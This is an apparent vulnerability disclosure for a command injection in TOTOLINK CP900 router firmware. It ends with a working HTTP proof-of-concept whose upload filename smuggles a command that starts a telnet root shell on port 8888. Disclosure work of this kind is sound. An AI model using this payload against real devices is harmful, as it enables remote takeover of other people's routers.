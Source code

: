 # TOTOLINK Vulnerability

**Vendor**:TOTOLINK

**Product**:CP900

**Version**:TOTOLINK_C8B810C-1A_CP900_CP0016_QCA9531_SPI_16M128M_V6.3c.566_B20171026_ALL.web

**Link**:http://www.totolink.cn/data/upload/20210720/5bee10397c082b0419cbad3eb7d1bd97.zip

**Type**:Remote Command Execution

**Exploit Auth**:B2eFly@Hillstone

## Vulnerabilty Description

Totolink outdoor CPE CP900  V6.3c.566_B20171026 were discovered to contain a command injection vulnerability in the mtd_write_bootloader function via the filename parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

### Remote Command Execution

In upgrade.so:

In setUpgradeUboot->mtd_write_bootloader function，**filename** is directly passwd by the attacker,so we can control the **filename** to attack the device.

As you can sess,in mtd_write_bootloader function,the input has not been checked.

Enventuall,the initial input will be extracted and cause command injection.

  ![image-20220328130530226](6-1.png)

 ![image-20220328130606714](6-2.png)

## POC

 ```http
 POST /cgi-bin/cstecgi.cgi?action=upload&setting/setUpgradeUboot HTTP/1.1
 Host: 192.168.0.254
 User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Accept-Encoding: gzip, deflate
 Content-Type: multipart/form-data; boundary=---------------------------331951820841881804292816452126
 Content-Length: 11321327
 Origin: http://192.168.0.254
 Connection: close
 Referer: http://192.168.0.254/adm/upload_firmware.asp?timestamp=1648443428280
 Cookie: SESSION_ID=2:1648443350:2
 Upgrade-Insecure-Requests: 1
 
 -----------------------------331951820841881804292816452126
 Content-Disposition: form-data; name="filename"; filename="1.bin;`telnetd -l /bin/sh -p 8888`;"
 Content-Type: application/octet-stream
 
 ....
 
 ```

## Result

Get Shell!
